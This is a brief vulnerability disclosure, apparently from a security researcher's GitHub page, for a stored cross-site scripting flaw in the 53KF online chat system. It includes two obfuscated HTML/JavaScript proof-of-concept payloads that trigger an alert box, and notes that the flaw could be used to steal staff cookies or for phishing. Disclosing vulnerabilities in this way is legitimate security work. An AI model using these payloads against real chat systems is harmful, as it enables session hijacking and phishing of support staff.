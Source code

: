 ## 53KF_vuln_xss

When using the 53KF online chat system, it is found that the inserted HTML statements can be successfully executed, and the alarm window and JS script can be executed successfully, thus stealing customer service staff cookies or fishing operations.

## description ：

Cross Site Scripting (XSS) vulnerability in 53KF online chat system product, Affecting versions < 2.0.0.2 . The vulnerabilities could be remotely exploited resulting in Cross-Site Scripting (XSS) or information disclosure.

Exploit Title: There is a stored Cross Site Scripting in 53KF

Date: 2020/10/27

Exploit Author: panzhenhua

Vendor Homepage: http://www.53kf.me/

Version: < 2.0.0.2

Tested on: macOS

## POC:

1、<input type=text autofocus onfocus=window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))//

2、<details open ontoggle=window[490837..toString(1<<5)](atob('YWxlcnQoMSk='))>

## verification：
Open 53 online customer service chat window to inject POC
![Image](https://github.com/i900008/panexiang.github.io/blob/gh-pages/2.png
Close the chat window and open it again. The attack is successful
![Image](https://github.com/i900008/panexiang.github.io/blob/gh-pages/1.png

